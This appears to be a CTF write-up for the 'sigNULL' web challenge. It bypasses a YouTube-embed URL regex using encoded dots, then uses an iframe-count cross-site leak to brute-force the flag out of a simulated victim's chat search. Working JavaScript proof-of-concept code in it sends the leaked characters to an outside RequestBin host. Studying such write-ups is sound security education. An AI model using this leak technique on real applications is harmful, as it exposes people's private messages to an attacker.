








# sigNULL
* Category: Web
* 550 Points
* Solved by the JCTF Team

## Description

> Jeff Bezos is using the super secure SigNULL messaging service.
> 
> Our best hackers have not been able to find a way to leak the flag from his inbox. You can contact him by sending a message to `0399bf35-5fb7-402b-ba56-8d85d4f09d29`.
> 
> Do you have what it takes to get the flag?

## Solution

We visit the attached website and are prompted to create a new account:


Once we create the account, we get a set of a private and public key:

```
Public Key: f2456c40-3cbf-4d48-ad3a-9c87969921ff

Private Key: 6e1b371a-66e0-43ff-8d0d-8a6910d21263
```

The interface we receive is: 



Using Jeff's public key, we can send him a message:



After chatting for a while, we get a clue:



Well, he asked for it:



Jeff assures us that he will watch the video. Can we send him some other link?



Digging through the Javascript sources, this looks like a React application. We can find the following YouTube-related logic:

```javascript
// ...
E = /^https?:\/\/[^.]+\.youtube\.com\/embed\//i;
// ...
t.preventDefault(), n && U ? ((a = U.toString()).startsWith("https://www.youtube.com/watch?v=") && (a = a.replace("watch?v=", "embed/"))
// ...
```

The regular expression seems flawed. We can bypass it by providing a prefix URL and appending the YouTube URL as a query string, as long as we encode the periods for the prefix URL as `%2E`.

```javascript
>>> E = /^https?:\/\/[^.]+\.youtube\.com\/embed\//i;
/^https?:\/\/[^.]+\.youtube\.com\/embed\//i

>>> 'https://www.youtube.com/embed/'.match(E)
Array [ "https://www.youtube.com/embed/" ]

>>> 'https://www.evil.com?www.youtube.com/embed/'.match(E)
null

>>> 'https://www%2Eevil%2Ecom?www.youtube.com/embed/'.match(E)
Array [ "https://www%2Eevil%2Ecom?www.youtube.com/embed/" ]

```

Let's try sending a RequestBin and see if Jeff visits it:

```
https://enswwrsynfpwo%2Ex%2Epipedream%2Enet?www.youtube.com/embed/
```



As expected, we get a hit from a Headless Chrome setup:

```
host: enswwrsynfpwo.x.pipedream.net
x-amzn-trace-id: Root=1-6192b77d-6fd5156b49804c913fe03901
upgrade-insecure-requests: 1
user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/86.0.4240.111 Safari/537.36
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
sec-fetch-site: cross-site
sec-fetch-mode: navigate
sec-fetch-dest: iframe
referer: https://signull.chal.intentsummit.org/
accept-encoding: gzip, deflate, br
accept-language: en-US
```

Notice how `sec-fetch-dest` is `iframe`. This is because the URL gets loaded in an IFrame:

```html
<div class="message-bubble"><iframe src="https://enswwrsynfpwo%2Ex%2Epipedream%2Enet?www.youtube.com/embed/"></iframe><time>just now</time></div>
```

What can we do with this? One thing we might want to do it somehow embed the messaging application itself into an IFrame, and see where we can go from there. However, that thought gets tossed early due to the following header:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/sigNULL]
└─$ curl -k -I -s https://signull.chal.intentsummit.org/ | grep frame
x-frame-options: DENY
```

We can point the `iframe` to any URL under our control, and run some Javascript code. However, due to Cross-origin policy, we won't be able to access anything interesting from the messaging application such as the history of the chats, the cookies, or the local storage (where the private key is stored in our case).

Let's backtrack and see what other capabilities exist in the site. Apart from messaging, the site contains a search capability:



When we search for a string such as "video", the query term is appended to the hash part of our own URL. So, if we search for `video`, the current URL becomes `https://signull.chal.intentsummit.org/#video`.

If the search term is found, the relevant chat is displayed. However, if it isn't, an `iframe` is displayed alerting that there were no results:



Why is all this important? Well, because it turns out it's possible to leak cross-domain information using metadata based on `iframe` counts. One of our team members figured it out during the CTF, and we later found a [blog post](https://ronmasas.com/posts/facebook-messenger-xsleak) by who if not [Ron Masas](https://twitter.com/ronmasas), the challenge author. 

How does it work? If an `iframe` is shown when there are no search results and no iframe is shown when there are results, then by counting the number of `iframe`s we can understand if there were results or not. This is something that can happen cross-origin. And not only that, we can also change the hash of a `window.location` from a cross-origin context, allowing us to search for whatever we want.

Let's create a short PoC:

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>sigNULL</title>
  </head>
  <body>
    <script>
      const delay = ms => new Promise(res => setTimeout(res, ms));

      const get_num_iframes_for_search = async function(term) {
        const uri_prefix = "https://signull.chal.intentsummit.org#";
        window.parent.location = uri_prefix + encodeURIComponent(term);
        await delay(100);
        return window.parent.frames.length;
      }

      const run = async function() {
        const request_bin = "https://enswwrsynfpwo.x.pipedream.net/";

        for (const term of ["INTENT", "asdf"]) {
          const num_iframes = await get_num_iframes_for_search(term);
          fetch(`${request_bin}?term=${term}&num=${num_iframes}`);
        }
      }

      (async function() {
        await run();
      })();
    </script>
  </body>
</html>
```

Remember that this code will be embed into an `iframe` on Jeff's side. What we do here is use `window.parent.location` to change the hash of the `iframe`'s parent (i.e. the messaging application) to two different values: `INTENT` and `asdf`. Each time, we wait a while and count the amount of `iframe`s on the page. We then log the result to our RequestBin. 

We send `https://sigNULL%2Ejctf%2Erepl%2Eco?www.youtube.com/embed/` as a message and get two hits from the remote client:

```
/?term=INTENT&num=1
/?term=asdf&num=2
```

Exactly as we expected, for the term `asdf` we get two `iframe`s - one is the from the message content and one is to inform that no results were found. For the `INTENT` query, we just get one `iframe` - the one from the message content.

Using this technique, we can brute force the flag one character at a time:

```javascript
      const delay = ms => new Promise(res => setTimeout(res, ms));

      const get_num_iframes_for_search = async function(term) 
      {
        const uri_prefix = "https://signull.chal.intentsummit.org#";
        window.parent.location = uri_prefix + encodeURIComponent(term);
        await delay(100);
        return window.parent.frames.length;
      }

      const run = async function() 
      {
        const printable = "e3t7a@4o0i1!_ns5$hrdlcumwfg6ypbvkjxqz289\"#%&'()*+,-./:;<=>?[\\]^`{|}~";
        const base_num_iframes = window.parent.frames.length;
        const request_bin = "https://enswwrsynfpwo.x.pipedream.net/";
        let current_flag = "INTENT{";

        fetch(`${request_bin}?starting`);

        for(let counter = 0; counter < 30; counter++)
        {
          let found = false;
          for(c of printable)
          {
            const num_iframes = await get_num_iframes_for_search(current_flag + c);
            if(num_iframes == base_num_iframes)
            {
              found = true;
              current_flag += c;
              break;
            }
          }

          if ( (!found) || (current_flag[-1] == "}") )
          {
            break;
          }
        }

        fetch(`${request_bin}?flag=${btoa(current_flag)}`);

      }

      (async () => {
        await run();
      })();
```

We wait for the hit in our RequestBin and eventually get the flag:

```
/?flag=SU5URU5Ue2lfaGF2ZV9hX2NyYXNoX29uX2VsMG59
```

Decoded, the flag is: 

```console
┌──(user@kali)-[/media/sf_CTFs/intent/sigNULL]
└─$ echo SU5URU5Ue2lfaGF2ZV9hX2NyYXNoX29uX2VsMG59 | base64 -d
INTENT{i_have_a_crash_on_el0n}
```

Very cool challenge!